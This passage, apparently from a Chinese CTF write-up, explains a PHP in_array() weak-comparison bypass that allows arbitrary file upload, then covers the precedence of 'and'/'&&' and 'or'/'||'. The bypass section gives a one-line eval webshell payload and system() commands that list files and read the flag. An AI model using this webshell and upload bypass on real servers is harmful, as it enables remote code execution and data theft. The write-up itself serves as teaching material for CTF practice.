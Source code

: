 [array_push() 函数](https://www.runoob.com/php/func-array-push.html)：向数组尾部插入一个或多个元素

[rand() 函数](https://www.runoob.com/php/func-math-rand.html)随机生成数组rand(min,max)

[file_put_contents() 函数](https://www.runoob.com/php/func-filesystem-file-put-contents.html)：把一个字符串写入文件中

**这题突破点在`in_array()`函数**

in_array：(PHP 4, PHP 5, PHP 7)

功能：检查数组中是否存在某个值

```php
bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )
```

在 `$haystack`中搜索` $needle`，如果第三个参数` $strict`的值为 TRUE，则 in_array()函数会进行强检查，检查 `$needle`的类型是否和 `$haystack`中的相同。如果找到 `$haystack`，则返回 TRUE，否则返回 FALSE。

很明显，这题使用in_array()函数时并没有设置第三个参数为TRUE，所以此时是==的弱类型比较。（弱比较字符串 1.php 与 1 返回 true）

**绕过方法:**
传入n=1.php。（这道题，每次生成随机数都包含 1，所以 1 在数组中的可能最大）因为PHP在使用 in_array()函数判断时，会将 1.php强制转换成数字1，而数字1在 range(1,24)数组中，当随机生成的数字正好是1时绕过 in_array()函数判断，导致任意文件上传漏洞。

**payload:**

```
n=1.php
post:content=<?php eval($_POST[1]);?>
```

多试几次，直到不报错的那一次，说明成功传入一句话。

然后访问https://url/1.php，再post传入1=system('ls');

再post: 1=system('cat flag***.php')；

然后在网页源码中看到flag





### 8、and与&& 、or与||的区别

**（Web 100）**

> 以下是对php中OR与||、AND与&&的区别进行了详细的总结介绍

本身没有区别，习惯问题 ，但是有时候牵涉到运算符优先级的问题，结果会不同。

赋值运算的优先级比AND和OR的高，所以先赋值；比&&和||的低，所以逻辑运算符先执行，先逻辑运算，再赋值

例如：

```php
<?php
$p = 6 or 0;
var_dump($p);//int(6)

$p = 6 || 0;
var_dump($p);//bool(true)

$p = 6 and 0;
var_dump($p); //int(6) 

$p = 6 && 0;
var_dump($p); //bool(false) 
?>
```
